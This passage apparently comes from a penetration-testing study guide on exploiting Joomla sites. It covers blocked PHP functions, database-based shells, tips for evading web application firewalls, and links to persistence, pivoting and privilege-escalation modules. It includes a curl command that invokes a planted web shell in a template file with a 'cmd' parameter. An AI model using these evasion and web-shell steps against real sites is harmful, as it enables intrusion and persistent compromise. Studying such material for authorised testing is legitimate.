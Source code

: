 
### Exploitation Limitations

#### Extension-Specific Blocks
```bash
# Some Joomla installations may block:
# - Template editing for non-super administrators
# - File system access
# - Certain PHP functions (system, exec, shell_exec)

# Alternative: Database-based shells
# Inject into database table, read via SQL queries
```

#### WAF/Security Plugin Detection
```bash
# If requests are blocked, try:
# - Different User-Agents
# - Encoded payloads
# - Fragmented requests
# - Alternative template files

# Example evasion:
curl -H "User-Agent: Joomla/3.9.4" \
  "http://target.com/templates/protostar/error.php?cmd=id"
```

---

## Next Steps & Advanced Techniques

After successful Joomla exploitation:

1. **[Database Persistence](joomla-database-persistence.md)** - SQL-based backdoors and triggers
2. **[Network Pivoting](../pivoting-tunneling-port-forwarding/)** - Internal network reconnaissance
3. **[Privilege Escalation](../../linux-privilege-escalation/)** - Local system compromise
4. **[Active Directory Integration](../../active-directory-enumeration-attacks/)** - Domain environment attacks

### Integration with Other Modules

**🔗 Cross-Module Applications:**
- **File Upload Attacks** - Bypass Joomla media restrictions
- **Command Injection** - Template-based injection techniques  
- **XSS Attacks** - Admin panel compromise vectors
- **SQL Injection** - Database-level exploitation

**💡 Key Takeaway:** Joomla exploitation primarily focuses on **template manipulation** for RCE after administrative access, supplemented by **core vulnerabilities** like directory traversal and **component-specific exploits**. The combination of built-in functionality abuse and CVE exploitation provides multiple pathways to system compromise across different Joomla versions and configurations. 
